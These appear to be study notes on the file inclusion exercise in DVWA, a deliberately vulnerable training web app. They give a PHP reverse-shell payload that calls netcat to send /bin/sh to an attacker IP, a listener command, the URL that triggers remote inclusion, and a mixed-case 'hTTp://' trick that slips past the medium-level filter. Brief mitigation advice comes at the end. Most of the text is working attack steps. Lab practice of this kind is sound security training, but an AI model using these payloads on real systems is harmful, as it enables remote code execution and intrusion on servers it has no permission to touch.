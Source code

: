 # LOW
<?php
passthru("nc -e /bin/sh 10.0.2.15 8888"); 
?>

save as reverse.txt otherwise it will execute on your machine.

check that you can access it on your local machine.
service apache2 start

http://localhost/reverse.txt

nc -vv -l -p 8888

important to include http://

10.0.2.4/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/reverse.txt

now we have reverse shell, possibly have to put ? on end of txt if it doesn’t work.

# MEDIUM

Doing the same steps as the easy one, we see that it doesn’t work.
But if we change the lowercase t’s to uppercase it bypasses it.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=hTTp://10.0.2.15/reverse.txt

Looking at the code 
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file); 
It is filtering out http:// and https:// .

# HIGH

High stops us from including any page but include.php .

# Ways of mitigating file inclusion

Prevent remove file inclusion
	Disable allow_url_fopen and allow_url_include
	
	Edit the files in /etc/php5/cgi/php.ini and set to off.

Prevent local file inclusion
	Use static file inclusion
